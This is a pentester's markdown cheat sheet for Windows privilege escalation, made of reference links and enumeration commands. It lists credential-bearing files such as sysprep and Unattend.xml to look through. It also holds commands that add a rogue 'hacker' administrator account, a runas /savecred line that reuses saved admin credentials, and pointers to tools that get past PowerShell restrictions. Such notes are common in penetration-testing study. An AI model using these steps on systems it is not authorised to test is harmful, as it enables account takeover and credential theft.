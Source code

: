 # Windows priv esc

## LINKS

* https://www.fuzzysecurity.com/tutorials/16.html
* https://xapax.gitbooks.io/security/content/privilege_escalation_windows.html CHECK THIS
* https://pentest.blog/windows-privilege-escalation-methods-for-pentesters/
* https://xor.cat/2017/09/05/sysinternals-accesschk-accepteula/
* https://support.microsoft.com/en-us/help/251192/how-to-create-a-windows-service-by-using-sc-exe


## Who are you, are you system ?
echo %username%
net user <user>

## what users on the system?
net users
net localgroup

## What is the windows version?
EULA.txt, sysinfo

## sensitive files ?
c:\sysprep.inf
c:\sysprep\sysprep.xml
%WINDIR%\Panther\Unattend\Unattended.xml
%WINDIR%\Panther\Unattended.xml

## Group policies ?
C:\ProgramData\Microsoft\Group Policy\History\{31B2F340-016D-11D2-945F-00C04FB984F9}\Machine\Preferences\Group

## regedit interesting things

- InstallAsAdmin
...

## WMIC for info
see https://www.fuzzysecurity.com/tutorials/16.html
https://www.fuzzysecurity.com/tutorials/files/wmic_info.rar

## Can you add an admin user?
net users hacker pass /add
net localgroup administrators hacker /add

## what on users homes?
any useful info?

## Firewall
netsh firewall show state
netsh firewall show config

## can we runas ?
https://ss64.com/nt/runas.html
This was working on a machine : 

```
runas /user:administrator /savecred "c:\users\security\downloads\wsrt.exe"
```

## what are sheduled tasks?
schtasks /query /fo LIST /v

## Can we remplace a service?
Uee accesschk to search writables services
accesschk.exe -uwcqv "testuser" * 

## What services are accessible from inside?
netstat -aon

## Is there any useful tool?
python, perl, ...

## What programs are installeds?
dir c:\program files
dir c:\program files (x86)

search for local exploits on this programs

## vault
policy.vpol ? see powersploit

## unattended
https://www.dionach.com/blog/logmein-rescue-unattended-service-privilege-escalation


## powershell

- powersploit has some great tools https://github.com/PowerShellMafia/PowerSploit
- to bypass CLM : https://github.com/padovah4ck/PSByPassCLM

